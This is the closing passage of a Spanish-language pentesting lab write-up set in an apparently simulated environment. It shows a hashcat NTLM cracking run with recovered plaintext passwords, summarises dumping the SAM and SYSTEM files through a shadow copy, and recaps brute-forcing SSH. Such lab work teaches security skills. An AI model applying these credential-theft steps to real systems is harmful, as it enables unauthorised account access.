     ```bash
    hashcat -m 1000 hashes.txt diccionarios/kaonashi14M.txt 
    .
    .
    .
    Dictionary cache built:
    * Filename..: diccionarios/kaonashi14M.txt
    * Passwords.: 14344392
    * Bytes.....: 138263618
    * Keyspace..: 14344392
    * Runtime...: 1 sec

    e02bc503339d51f71d913c245d35b50b:vagrant                  
    0fd2eb40c4aa690171ba066c037397ee:pr0t0c0l                 
    d60f9a4859da4feadaf160e97d200dc9:mandalorian1             
    Approaching final keyspace - workload adjusted.  
    .
    .
    .
    ```

**Resumen**:
Estos pasos permiten la creación de una copia de sombra en Windows mediante vssown.vbs, facilitando el acceso a los archivos SAM y SYSTEM que contienen los hashes de contraseñas de los usuarios. El proceso continúa con la transferencia de estos archivos al entorno de ataque para su análisis y posterior crackeo. Este procedimiento se alinea con la etapa de exfiltración de credenciales dentro de un entorno controlado en el flujo de un ataque ético.

## Conclusión y Recomendaciones

Este laboratorio guiado ha cubierto las principales etapas de la cadena de ataque de MITRE ATT&CK en un entorno simulado, pasando por reconocimiento, escaneo, acceso inicial y explotación básica. Esta práctica proporciona experiencia en la identificación de servicios, evasión de firewall, recolección de información mediante enumeración y obtención de acceso mediante fuerza bruta en SSH. Los pasos aquí seguidos permiten desarrollar habilidades esenciales para el pentesting en entornos empresariales.